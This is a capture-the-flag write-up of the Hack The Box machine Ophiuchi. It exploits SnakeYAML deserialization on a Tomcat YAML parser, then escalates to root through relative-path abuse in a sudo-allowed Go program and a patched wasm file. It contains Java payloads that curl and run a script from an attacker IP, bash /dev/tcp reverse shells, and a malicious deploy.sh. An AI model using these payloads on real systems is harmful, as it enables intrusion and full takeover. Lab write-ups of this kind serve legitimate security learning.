# Hackthebox - Ophiuchi

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.125
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 8080 which is HTTP is open, so I open the webpage and got this.


Next I started a gobuster to find directories.


I try clicking around the website and see that it is a YAML parser. I try putting in some stuff but always got a message saying the feature is disabled.                              


I started searching about "YAML deserilization exploit" and got an article (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858). I just try running the exploit blindly just to see if it works.


I setup a listener and got a hit back from the box.


So now I know the exploit works, but I still doesn't have command execution. The article aboves dives in more to how we can do a remote command execution through this exploit. We basically provide a java class file which contains our command. I want to test the exploit first so I do a simple curl command to my machine. Below is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("curl 10.10.14.66:8888");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

I convert the java file to a class file.


Setup a python server to host my class file.


Send the YAML payload to the web server.                                                                                      


I got a curl back from the box to my machine.


So its confirmed that the command execution works. Now I created a reverse shell bash script and download it to the box and execute it with bash. Here is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl 10.10.14.66:8000/rev.sh -o /tmp/rev.sh");
			Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I created the **rev.sh** bash script.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.66/7777 0>&1
```

Setup a listener, send the payload and got a shell as the tomcat user.


Next I try looking through the conf directory in tomcat's home directory and got a credentials for the user admin.


I try SSH to the box as admin with that password and got in.                                                                          


I try running **sudo -l** and the user admin can execute a file written in go.


I look at the contents of the file and try to analyse what it does.
```bash
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)

func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Its calling **deploy.sh** and **main.wasm** but isn't using absolute paths. Which means I can make the script call my files instead.

I go to **/dev/shm** and created **deploy.sh** file.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
```
The file will only execute the **deploy.sh** file if variable f is equal to 1. The variable f is taken from **main.wasm**, which is a web assembly file. I search around for how to work with a wasm file and found a tool (https://github.com/webassembly/wabt). The wasm file can be converted to web assembly text format which is more human readable.

So I send the **main.wasm** file to my box.


Convert it into wat format.


Now I can see the contents.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

There is a function called info which is pulled by the **index.go** file. So I can just make the info function returns 1. So I edit the file with nano.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

I converted the wat file back to wasm format.


curl the new wasm file


Execute the full sudo command.


And I got a shell as root.                                                                                                                 

